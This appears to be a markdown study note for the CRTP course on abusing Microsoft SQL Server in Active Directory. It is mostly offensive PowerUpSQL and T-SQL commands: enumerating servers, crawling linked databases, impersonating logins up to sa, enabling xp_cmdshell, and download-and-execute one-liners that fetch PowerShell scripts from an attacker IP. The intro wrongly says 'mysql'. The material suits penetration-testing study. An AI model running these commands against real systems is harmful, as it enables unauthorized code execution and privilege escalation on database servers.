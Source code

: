 ```yaml
---
title: "20. MSSQL Abuse"
section: "crtp"
date: 2022-04-21
tags: ["Forest Trust Abuse", "mssql"]
---
```


Forest trust mysql abuse.
## Methodology/Steps
 1. Check the SPN's
2. Check which SPN's you have access to
3. Check the Privileges you have of the above filtered SPN's
4. Keep note of the **Instance-Name**, **ServicePrincipalName** and the **DomainAccount-Name**
5. If you find any service with *higher privileges* continue below to abuse it

## 1. Enumerate SPN
```powershell
Get-SQLInstanceDomain
```

## 2. Check Access
```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

## 3. Check Privileges / Gather Infromation
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

# Extra
## Check impersonation rights
```powershell
Invoke-SQLAudit -Verbose -Instance <instanceName>
```
---

# MSSQL Database Links [ MSSQL Abuse ; Part 2 ]

## Methodology/Steps
1. Check the SQL Server link
2. Keep note if you have link to any other database in **DatabaseLinkName**
3. If SysAdmin:0 means that we will not be allowed to enable **xp_cmdshell**
4. Keep on enumerating and check all the linked databases you have access to
5. Now we can try to execute commands through out all the linked databases found

## 1. Enumerate SQL Server links
```powershell
Get-SQLServerLink -Instance <instanceName> -Verbose
select * from master..sysservers
```

## 2. Enumerate DB links
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Verbose
select * from openquery("<instanceName>",'select * from openquery("<linkedInstance>",''select * from master..sysservers'')')
```

## 3. Execute commands on target server
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Query "exec master..xp_cmdshell 'whoami'" | ft
```

## 4. Download file on target server
```powershell
Get-SQLServerLinkCrawl -Instance <instanceName> -Query 'exec master..xp_cmdshell "powershell -c iex (new-object net.webclient).downloadstring(''http://IP:8080/Invoke-HelloWorld.ps1'',''C:\Windows\Temp\Invoke-HelloWorld.ps1'')"'
```

# Extra Commands
## Impersonate an user
```powershell
Invoke-SQLAuditPrivImpersonateLogin -Instance <instanceName> -Exploit -Verbose

#Then, we can EXECUTE AS, and chained the 'EXECUTE AS'
Get-SQLServerLinkCrawl -Verbose -Instance <instanceName> -Query "EXECUTE AS LOGIN = 'dbuser'; EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE; EXEC master..xp_cmdshell 'powershell -c iex (new-object net.webclient).downloadstring(''http://IP/Invoke-HelloWorld.ps1'')'"
```

## Basic SQL Server queries for DB enumeration
Also works with **Get-SQLServerLinkCrawl**
```powershell
#View all db in an instance
Get-SQLQuery -Instance <instanceName> -Query "SELECT name FROM sys.databases"

#View all tables
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.TABLES" 

#View all cols in all tables in a db
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.columns"

#View data in table
Get-SQLQuery -Instance <instanceName> -Query "USE dbName;SELECT * FROM tableName"
```